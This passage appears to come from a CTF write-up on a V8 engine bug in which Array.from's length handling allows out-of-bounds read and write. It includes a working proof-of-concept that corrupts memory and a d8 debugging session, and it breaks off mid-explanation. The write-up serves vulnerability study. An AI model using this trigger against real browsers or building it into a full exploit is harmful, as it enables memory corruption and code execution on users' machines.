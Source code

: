 Now found that the `GenerateSetLength` ignores one case what if old length is greater than new length. if this case occur, the new Array's length will greater ,causing Out-Of-Bound read&write.

Ps. `Array.from` can be readable via JavaScript using [polyfill](https://github.com/inexorabletash/polyfill/blob/master/polyfill.js#L2146) .

Then come to the POC.

```js
let oobArray = [];
Array.from.call(function() { return oobArray }, {[Symbol.iterator] : _ => (
  {
    counter : 0,
    max : 1024 * 1024 * 8,
    next() {
      let result = this.counter++;
      if (this.counter == this.max) {
        oobArray.length = 0;
        return {done: true};
      } else {
        return {value: result, done: false};
      }
    }
  }
) });
oobArray[oobArray.length - 1] = 0x41414141;
```

In POC, it uses `Array.from.call` to trigger the vulnerability. The Object.call() can change  `this` pointer as the first parameter, and it can change some Attributes via passing following parameter.

```js
┌─[p4nda@p4nda-virtual-machine] - [~/Desktop/browser/ctf/rollad8/v8/out/x64.release/test] - [一 6月 03, 12:49]
└─[$] <git:(1dab065*)> cat test.js 
function test(x){
	%DebugPrint(b);
	%DebugPrint(this);
}

let a = [123];
let b = function(){
	return a;
}

test.call(b);%                                                                  ┌─[p4nda@p4nda-virtual-machine] - [~/Desktop/browser/ctf/rollad8/v8/out/x64.release/test] - [一 6月 03, 12:49]
└─[$] <git:(1dab065*)> ../d8 --allow-natives-syntax ./test.js
0x19e71670d551 <JSFunction b (sfi = 0x20e455627039)>
0x19e71670d551 <JSFunction b (sfi = 0x20e455627039)>
```

when execute PoC , it will return the globe variable oobArray in `ConstructArrayLike`, the iterator_method will be set as below:
